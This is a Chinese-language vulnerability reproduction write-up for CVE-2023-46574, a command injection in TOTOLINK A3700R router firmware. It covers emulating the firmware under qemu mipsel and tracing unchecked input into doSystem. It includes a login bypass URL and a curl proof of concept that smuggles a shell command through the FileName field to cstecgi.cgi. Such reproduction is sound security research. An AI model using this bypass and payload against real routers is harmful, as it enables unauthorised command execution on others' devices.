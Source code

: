 
TOTOLINK 命令执行 CVE-2023-46574

- - -

# TOTOLINK 命令执行 CVE-2023-46574

## 搭建 qemu mipsel 环境

```plain
sudo apt-get install schroot debootstrap
ubuntu20
debootstrap --arch=mipsel bookworm /iotconfig/debootstrap/mipsel https://mirrors.aliyun.com/debian
```

[![](assets/1708919915-a649f4c54a58e40e31e5da2e7ab5ea80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220854-ead62014-ccd4-1.png)  
然后配置 schroot

```plain
sudo vim /etc/schroot/chroot.d/mipsel.conf
```

```plain
[mipsel]
type=directory
directory=/iotconfig/debootstrap/mipsel/
users=root
groups=root
root-groups=root
```

然后就可以看到已经配置上了

[![](assets/1708919915-40bfa708d0e0d88add8bff44ce5e17db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220930-00c22a1c-ccd5-1.png)  
之后直接 schroot 进入

```plain
sudo schroot -c chroot:mipsel -u root
```

[![](assets/1708919915-7fc80804bdc97cbbdc5c72628423e932.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220941-073e4cd6-ccd5-1.png)

## 漏洞分析

在 cstecgi.cgi 程序中

[![](assets/1708919915-436d56d3102815927e106271b936cf8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221000-1257c476-ccd5-1.png)  
FileName 没有检查放入 doSystem，所以这里有命令执行漏洞

## 固件模拟

```plain
sudo binwalk --run-as=root -Me TOTOLINK_A3700R_V9.1.2u.6165_20211012.web
```

[![](assets/1708919915-7fc56e0300d1aa2a079ac9cbd5711c42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221019-1d838e70-ccd5-1.png)  
查看目录，里面有个 lighttpd 文件夹，所以这里用的是 lighttpd 服务

[![](assets/1708919915-6d3f1d4a01c43f1aa9e4093c33e7a9f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221149-53403cd4-ccd5-1.png)  
在 lighttpd 目录下找到了配置文件

[![](assets/1708919915-3ab15f4ec88c48743bdf044f0648f3f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221157-584f8586-ccd5-1.png)  
这里 lighttpd 是通过 lighttpd -f \[配置文件\]来启动的

```plain
sudo cp -r squashfs-root /iotconfig/debootstrap/mipsel/root/
```

然后将 squashfs-root 复制到安装的 mipsel 系统上

[![](assets/1708919915-8ec8711ef8acfeffe5d801c150913541.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221216-63a5712a-ccd5-1.png)  
进入 mipsel 系统，然后再 chroot 进入 squashfs-root 目录下

```plain
sudo schroot -c chroot:mipsel -u root
chroot squashfs-root/
```

[![](assets/1708919915-f65352104dc001a36a13f73198c6254a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221231-6c7fda24-ccd5-1.png)  
然后直接启动服务即可

```plain
lighttpd -f lighttp/lighttpd.conf
```

[![](assets/1708919915-51454ead13228ae08e72896aa036682c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221239-71762c72-ccd5-1.png)

```plain
这里如果没启动成功，只需要在/var/run 目录下创建一个 lighttpd.pid 文件即可
mkdir /var/run
touch /var/run/lighttpd.pid
```

然后就能进入路由器登录界面了

[![](assets/1708919915-0fe33dc5ea1d83097c60001c7bc696e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221259-7d5e3160-ccd5-1.png)

## 绕过登录

因为没设置密码，所以直接抓包，空密码登录

[![](assets/1708919915-9278d7cb6d3fecf2b4019e44e044f111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221311-847b51bc-ccd5-1.png)  
没直接进入，但是可以看到地址  
[http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login](http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login)

[![](assets/1708919915-48b7d02cfb785eac0e5464bdbffe9f8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221320-89925b78-ccd5-1.png)  
直接访问即可

[![](assets/1708919915-d0e64867e06e13d679e7da477d596636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221327-8e0d3bd2-ccd5-1.png)

## 命令执行

拿到 session id

[![](assets/1708919915-488c8ea0dfc6920b2726d1b4bc48805b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221342-97089114-ccd5-1.png)

```plain
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=2:1708017806:2" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

[![](assets/1708919915-6e417d9aef16cffaecf1fdfd7863e275.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221402-a2eee3ca-ccd5-1.png)

![](assets/1708919915-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)TOTOLINK\_A3700R\_V9.1.2u.6165\_20211012.zip (8.658 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240216221624-f78081d2-ccd5-1.zip)
